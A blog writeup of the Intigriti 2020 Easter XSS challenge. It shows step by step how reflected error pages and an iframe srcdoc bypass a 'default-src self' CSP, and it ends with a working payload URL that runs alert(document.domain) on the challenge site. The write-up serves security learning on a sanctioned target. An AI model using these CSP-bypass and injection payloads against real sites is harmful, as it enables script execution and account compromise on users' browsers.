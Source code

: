 ```yaml
---
layout: post
title: "Intigriti 2020 Easter XSS challenge writeup"
---
```


This Easter [intigrity](https://www.intigriti.com/) ran an xss challenge. Out of all correct submissions they drew one winner to get a Burp Suite Pro License. I wasn't the lucky one (congrats [entrophy](https://www.intigriti.com/profile/entrophy)!) but solving this challenge was a lot of fun! so I decided to post this writeup and share some things I've learned about bypassing CSP.


# Step 0. The challenge.

So, the challenge was to find xss on a rather simple page hosted on: [https://challenge.intigriti.io/](https://challenge.intigriti.io/). The rules for the solution were:
* Should work on the latest version of Firefox or Chrome
* Should bypass CSP
* Should execute the following JS: alert(document.domain)
* Should be executed on this page, on this domain

CSP was set in headers to:
```
content-security-policy: default-src 'self'
```
so nothing except of `<script src="./....">` was allowed and there was only one js file used on the page:

{% highlight js  linenos %}
var hash = document.location.hash.substr(1);
if(hash){
  displayReason(hash);
}
document.getElementById("reasons").onchange = function(e){
  if(e.target.value != "")
    displayReason(e.target.value);
}
function reasonLoaded () {
    var reason = document.getElementById("reason");
    reason.innerHTML = unescape(this.responseText);
}
function displayReason(reason){
    window.location.hash = reason;
    var xhr = new XMLHttpRequest();
    xhr.addEventListener("load", reasonLoaded);
    xhr.open("GET",`./reasons/${reason}.txt`);
    xhr.send();
}
{% endhighlight %}

# Step 1. Injecting arbitrary html.

The quick look at the code shows us that we have an execution sink at line 11. But can we control the data that flows into this sink? Well, partially as it is an `unescape`d response from xhr request for which we can determine part of url using `location.hash` source (lines 14 and 17).

The [unescape](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/unescape) funciton basically reverts efects of `escape`, for example:

```javascript
unescape('%23hello%2f') === "#hello/"
```
Therefore, it'd be wonderful if we could find any endpoint that would reflect url-encoded strings to inject anything we want into `reason`'s innerHTML.

A bit of fuzzing with [dirsearch](https://github.com/maurosoria/dirsearch) reveals that paths that start with `challenge.intigriti.io/_ah` behave differently than other paths for non-existing resources, they reflect url-encoded strings. Bingo!

For example: https://challenge.intigriti.io/_ah%3Ch1%3Ehello%3C/h1%3E was giving us:

```html
...
<h2>Your client does not have permission to the requested URL <code>/_ah%3Ch1%3Ehello%3C/h1%3E</code>
...
```

Great!

Moreover, using `../` in `location.hash` we are able to put response generated by `./_ah...` in our `innerHTML` execution sink.

Now we are able to inject any html on our page. Let's say we want to inject `<h1>hello</h1>`. All we need to do is to simply use the following url:
```
https://challenge.intigriti.io/#../_ah%3C/code%3E%3Ch1%3Ehello%3C/h1%3E
```

(note that we are also closing `<code>` tag, that is present in response here)

Unfortunately, due to `default-src 'self'` csp, we cannot just inject `<img src=something onerror=alert(document.domain)>` and call it a day.


### fun fact
Using this `_ah` was not an intended way to solve this challenge. This behaviour was caused by `_ah` being one of the [reserved url's](https://cloud.google.com/appengine/docs/standard/python/config/appref#Python_app_yaml_Reserved_URLs) of app engine which hosted this challenge.

# Step 2. Injecting `<script src=...>`

`innerHTML` let's us do a lot of cool things but it won't enable us to execute code using `<script>` tag so we need to find another way.

After trying lot's of different stuff I've found [srcdoc](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-srcdoc) attribute of iframe useful. We can simply create an iframe with `<script src="https://example.com/our_script.js"></script>` via srcdoc in the following way:

```html
<iframe
  srcdoc="&lt;script src=https://example.com/our_script.js&gt;&lt;/script&gt;"
></iframe>
```

and inject it using the method from step 1.:
```
https://challenge.intigriti.io/#../_ah%3Ciframe%20srcdoc=%22%26lt%3bscript%20src=https://example.com/our_script.js%26gt%3b%26lt%3b%2fscript%26gt%3b%22%3E%3C/iframe%3E
```

But again, csp won't let us to execute anything outside of `challenge.intigriti.io`:

```
Content Security Policy: The page’s settings blocked the loading of a resource at https://example.com/our_script.js (“default-src”).
```

# Step 3. Crafting payload with https://challenge.intigriti.io/ origin.

We are missing one last thing to execute our JS. We need to have a script somewhere under `https://challenge.intigriti.io/`.

What happens when we try to access a random path on https://challenge.intigriti.io/ ?

https://challenge.intigriti.io/foobar responds with:
```html
404 - 'File "foobar" was not found in this folder.'
```

Nice. Can we turn it into a valid JS file? Yes! and
```
https://challenge.intigriti.io/';alert(document.domain)';
```
responds with:
```html
404 - 'File "';alert(document.domain)';" was not found in this folder.'
```

Which is a payload we needed!


# Step 4. Putting all pieces together.

Now we have everything we need to get our reflected XSS. The following url executes `alert(document.domain)` on [https://challenge.intigriti.io/](https://challenge.intigriti.io/) :
```
https://challenge.intigriti.io/#../_ah%3C/code%3E%3Ciframe%20srcdoc=%22%26lt%3bscript%20src=foo/';alert(document.domain);'%26gt%3b%26lt%3b%2fscript%26gt%3b%22%3E%3C/iframe%3E
```
**Voila!**

![xss]({{ "/assets/intigriti_xss.gif" | relative_url }})

